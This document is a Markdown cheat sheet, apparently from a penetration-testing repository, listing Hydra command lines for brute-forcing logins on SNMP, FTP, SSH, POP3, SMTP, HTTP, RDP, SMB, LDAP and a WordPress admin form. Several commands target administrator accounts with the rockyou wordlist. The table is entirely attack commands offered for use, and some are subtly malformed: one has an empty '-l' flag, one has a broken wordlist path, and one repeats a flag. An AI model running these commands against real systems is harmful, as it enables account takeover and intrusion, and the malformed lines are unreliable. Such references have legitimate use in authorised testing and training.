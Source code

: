# Hydra Cheat Sheet

| Command | Description |
|---|---|
|hydra -P password-file.txt -v $ip snmp |Hydra brute force against SNMP|
|hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp |	Hydra FTP known user and rockyou password list |
| hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh |Hydra SSH using list of users and passwords |
| hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh | Hydra SSH using a known password and a username list|
| hydra $ip -s 22 ssh -l -P big_wordlist.txt | Hydra SSH Against Known username on port 22 |
| hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V | Hydra POP3 Brute Force |
| hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V | Hydra SMTP Bruteforce |
| hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin | Hydra attack http get 401 login with a dictionary |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip | Hydra attack Windows Remote Desktop with rockyou |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb | Hydra brute force SMB user with rockyou |
| hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Hydra brute force a Wordpress admin login |
| hydra -L usernames.txt -P passwords.txt $ip smb -V -f  | SMB Brute Forcing |
| hydra -L users.txt -P passwords.txt $ip ldap2 -V -f | LDAP Brute Forcing |
